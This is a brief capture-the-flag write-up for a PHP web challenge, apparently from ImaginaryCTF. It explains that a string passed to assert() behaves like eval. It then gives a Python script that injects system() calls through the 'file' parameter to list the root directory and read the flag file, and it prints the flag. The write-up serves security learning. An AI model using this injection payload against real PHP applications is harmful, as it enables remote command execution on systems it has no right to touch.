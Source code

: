 ```yaml
---
created: 2024-07-19T15:44
updated: 2024-07-21T16:11
points: 100
solves: 518
---
```


```php
assert("strpos('$file', '..') === false") or die("Invalid file!");
```

This line is dangerous as the assert statement is acting as `eval`.

Our payload is hence simple.

```python
import requests
import urllib.parse
payload = urllib.parse.quote_plus("'.die(system('ls /')).'")
print(requests.get("http://journal.chal.imaginaryctf.org/?file="+payload).text)

payload = urllib.parse.quote_plus("'.die(system('cat /flag-cARdaInFg6dD10uWQQgm.txt')).'")
print(requests.get("http://journal.chal.imaginaryctf.org/?file="+payload).text)
# ictf{assertion_failed_e3106922feb13b10}
```
